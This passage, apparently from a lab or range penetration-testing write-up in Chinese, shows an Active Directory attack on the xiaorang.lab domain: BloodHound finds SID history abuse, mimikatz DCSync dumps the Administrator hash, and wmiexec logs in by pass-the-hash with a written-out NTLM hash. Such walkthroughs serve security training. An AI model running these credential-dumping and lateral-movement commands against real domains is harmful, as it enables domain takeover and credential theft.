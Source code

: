 登录此`yuxuan`用户，用`BloodHound`分析域内关系，发现这个用户滥用了 SID 历史功能

[![](assets/1705540441-0bf8457c68e10fdefb21e5c35f1c3e63.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116175334-1d28887e-b455-1.png)

```plain
SIDHistory 是一个为支持域迁移方案而设置的属性，当一个对象从一个域迁移到另一个域时，会在新域创建一个新的 SID 作为该对象的 objectSid，在之前域中的 SID 会添加到该对象的 sIDHistory 属性中，此时该对象将保留在原来域的 SID 对应的访问权限
```

所以直接可以 dcsync 抓取域管哈希

```plain
lsadump::dcsync /domain:xiaorang.lab /user:Administrator
```

[![](assets/1705540441-fa4251d182a6344f6b657d17f7f7172b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116175346-240757f6-b455-1.png)

wmiexec 登录

```plain
proxychains python3 wmiexec.py xiaorang/Administrator@172.22.6.25 -hashes :04d93ffd6f5f6e4490e0de23f240a5e9 -dc-ip 172.22.6.12
```

[![](assets/1705540441-5b454a666f11a58800799b7bc9862cb7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116175351-26f059b8-b455-1.png)
